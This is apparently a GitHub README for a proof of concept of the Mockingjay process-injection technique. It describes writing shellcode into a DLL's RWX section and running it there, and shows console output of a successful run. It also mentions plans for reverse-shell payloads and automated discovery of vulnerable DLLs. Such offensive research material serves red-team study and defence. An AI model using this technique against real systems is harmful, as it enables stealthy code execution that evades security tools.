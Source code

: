 # Mockingjay-POC

PoC for the Mockingjay injection technique (https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution).

What this code does :

1. Find the offset of the RWX section in the DLL passed as an argument
2. Find the size of the RWX section in the DLL passed as an argument
3. Write Shellcode into the RWX section of the DLL passed as an argument
4. Execute Shellcode from the RWX section of the DLL passed as an argument


### Usage
```ps1
PS C:\Users\admin\source\repos\Mockingjay-POC\x64\Release> .\Mockingjay-POC.exe
MOCKINGJAY SUPER ASCII ART

Error: Please provide the path to the DLL as a positional argument.
Usage: C:\Users\admin\source\repos\Mockingjay-POC\x64\Release\Mockingjay-POC.exe PATH_TO_DLL

--------------------------------------------------------------------------------------------

PS C:\Users\admin\source\repos\Mockingjay-POC\x64\Release> .\Mockingjay-POC.exe 'C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\msys-2.0.dll'
MOCKINGJAY SUPER ASCII ART

Base Adress : 210040000
Section Offset : 1ec000
Size of RWX section : 14848
Address of RWX Section : 000000021022C000
RWX section starts at 000000021022C000 and ends at 000000021022FA00
Size of RWX section : 14848
Size of shellcode : 461
461 bytes of Sh3llc0d3 written to RWX Memory Region
```


#### TODO
- Fix THREAD mess. For now, working great with simple calc shellcode but with a reverse shell, threads are not "independant" and parent one is stuck
- Add RWXFinder in this code to do some kind of all-in-one program that will find vulnerable DLL, and then exploit them
